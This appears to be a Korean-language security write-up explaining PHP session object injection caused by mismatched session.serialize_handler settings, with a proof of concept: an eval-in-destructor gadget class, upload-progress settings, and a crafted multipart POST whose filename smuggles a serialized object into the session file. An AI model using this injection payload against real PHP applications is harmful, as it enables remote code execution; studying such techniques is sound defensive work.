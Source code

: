 PHP에서 **session.serialize_handler** 옵션은 세션의 핸들러를 지정해주는 옵션이다.
어떤 방식으로 직렬화, 역직렬화 할지 설정할 수 있으며 기본값은 `php`다.
`php` 말고도 `php_binary`, `php_serialize`, `wddx` 옵션이 있다.

```
Local Value : session.serialize_handler = php
Master Value : session.serialize_handler = php_serialize
```

문제는 위와 같이 `php.ini`에서는  `php_serialize`로 설정해놨고
PHP 페이지에서는 `ini_set()`을 통해 `php`로 재설정했다.
즉, 세션을 직렬화해서 파일에 쓸 때와 읽어서 역직렬화 할 때 서로 다른 방식으로 진행할 수 있다는 것이다.



### Proof of Concept

우선 PHP에 `Object Injection`에 성공한다면 Code Execution이 가능하도록 클래스 하나를 만들어준다.

```php
class A {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}
```


또한 세션 파일에 내가 원하는 데이터를 포함시킬 수 있도록 `php.ini`에서 다음과 같이 설정해준다.

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

위와 같이 설정되어 있을 때 아래 내용으로 `POST` 요청을 하면 세션 파일이 생성되는걸 볼 수 있다.

```
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

munsiwoo
------WebKitFormBoundaryUmsB8xWbmldnarAQ
Content-Disposition: form-data; name="file"; filename="|O:1:\\"A\\":1:{s:3:\\"cmd\\";s:10:\\"phpinfo();\\";}"
Content-Type: text/plain

------WebKitFormBoundaryUmsB8xWbmldnarAQ--
```

#### session.serialize_handler에 따른 세션 값 차이

* Local Value, Master Value 둘다`php`일 때

```
upload_progress_abc|a:5:{s:10:"start_time";i:1568682523;s:14:"content_length";i:331;s:15:"bytes_processed";i:331;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:3:"abc";s:4:"name";s:41:"|O:1:"A":1:{s:3:"cmd";s:10:"phpinfo();";}";s:8:"tmp_name";s:14:"/tmp/phpHEOzEC";s:5:"error";i:0;s:4:"done";b:1;s:10:"start_time";i:1568682523;s:15:"bytes_processed";i:5;}}}
```
